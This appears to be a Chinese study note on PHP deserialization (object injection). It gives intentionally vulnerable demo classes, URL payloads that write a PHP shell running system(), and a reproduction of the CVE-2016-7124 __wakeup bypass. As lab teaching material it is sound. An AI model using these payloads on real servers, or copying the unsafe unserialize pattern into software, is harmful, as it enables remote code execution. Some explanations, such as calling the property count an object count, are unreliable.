








在PHP中，序列化用于存储或传递 PHP 的值的过程中，同时不丢失其类型和结构。PHP对象注入，专业术语为反序列化漏洞。

demo.php:

	<?php
		class A
		{
		    public function __toString()
		    {
				echo $this->target;
				echo "---";
				return $this->target;
		    }
		}
		$obj = unserialize($_GET['usr_serialized']);
		echo $obj;
	?>

	//demo.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:5:%22world%22;}

target 是对象里的属性，url 传入序列化值，再反序列化，取属性 "target"。

s 表示 string，6 表示target长度 为6


A也可以改为小写，是php代码里定义的类名class A，```O:1```表示类名```A```的长度为1，```"A":1```表示待反序列化的对象数量为1 ：```O:1:%22a%22:1:{s:6:%22target%22;s:5:%22world%22;}```


进一步的：想传2个对象，将 ```"A":1``` 改成 ```"A":2``` 就好了：

	http://localhost:808/test.php?usr_serialized=O:1:%22a%22:2:{s:6:%22target%22;s:5:%22world%22;s:7:%22target2%22;s:6:%22world2%22;}




## 反序列化写文件

test.php

	<?php
	
	class A
	{
	    //重写
	    public function __toString()
	    {
			echo $this->target;  //某些情况无法打印
			echo "-----";
	        $file = fopen("test2.php", "w");
			fwrite($file, $this->target);
			fclose($file);
			return $this->target;
	    }
	}
	
	//用户可控
	$obj = unserialize($_GET['usr_serialized']);
	//输出__toString
	echo $obj;
	?>

利用payload，像test2.php写入普通文本内容

	http://192.168.56.1/phpser/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:5:%22world%22;}




成功



写shell也很简单，只要配置好参数长度(无需url编码，我是从浏览器url复制出来自动url编码)：

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}


## CVE-2016-7124

### 漏洞原因

__wakeup()魔术方法绕过

如果存在__wakeup方法，调用 unserilize() 方法前则先调用__wakeup方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行

### 影响版本

PHP5 < 5.6.25

PHP7 < 7.0.10

### 复现

test.php

	<?php
	
	class A
	{
		public function __wakeup()
		{
			echo "no";
		}
		
	    public function __destruct() //在 PHP 中有一种垃圾回收机制，当对象不能被访问时就会自动启动垃圾回收机制，收回对象占用的内存空间。而析构函数正是在垃圾回收机制回收对象之前调用的。 // 析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。 通常来说在脚本结束时(非unset)php才会销毁引用 在脚本结束运行之前运行。 没对象就不执行。
	    {
			echo "-----";
	        $file = fopen("test2.php", "w");
			fwrite($file, $this->target);
			fclose($file);
			return $this->target;
	    }
	}

	//用户可控
	$obj = unserialize($_GET['usr_serialized']);
	?>

FUZZ：

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:1:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}



触发__wakeup方法，写入失败。

	http://localhost:808/test.php?usr_serialized=O:1:%22A%22:3:{s:6:%22target%22;s:70:%22%3C?php%20$a%20=%20system(%22calc.exe%22,%20$status);print_r($a);print_r($status);?%3E%22;}



将对象属性个数改为2，绕过__wakeup方法执行。成功写入shell，运行test2.php弹出计算器。




[__wakeup()魔术方法绕过](https://www.cnblogs.com/zy-king-karl/p/11436872.html) 这个链接里的例子很好，正常情况下__wakeup方法清除了对象属性，但是将对象属性个数改为2(大于实际属性数1)，绕过了绕过__wakeup方法执行，将代码(name属性值注入的恶意代码)写入文件。

## 后记

	<?php
	$sites = array('Google', 'Runoob', 'Facebook');
	$sites1=json_encode($sites);
	echo var_dump(json_decode($sites1)). PHP_EOL;
	echo "<br>";
	
	// 序列化
	$serialized_data = serialize($sites);
	echo  $serialized_data . PHP_EOL;
	echo "<br>";

	// 反序列化
	$str = 'a:3:{i:0;s:6:"Google";i:1;s:6:"Runoob";i:2;s:8:"Facebook";}';
	$unserialized_data = unserialize($str);
	print_r($unserialized_data);
	?>



常见payload：```test=O:1:"A":2:{s:1:"a";s:18:"<?php phpinfo();?>";}```

## reference

[PHP unserialize() 函数](https://www.runoob.com/php/php-unserialize-function.html)

[实战经验丨PHP反序列化漏洞总结----介绍4种php反序列化绕过](https://www.cnblogs.com/ichunqiu/p/10484832.html)

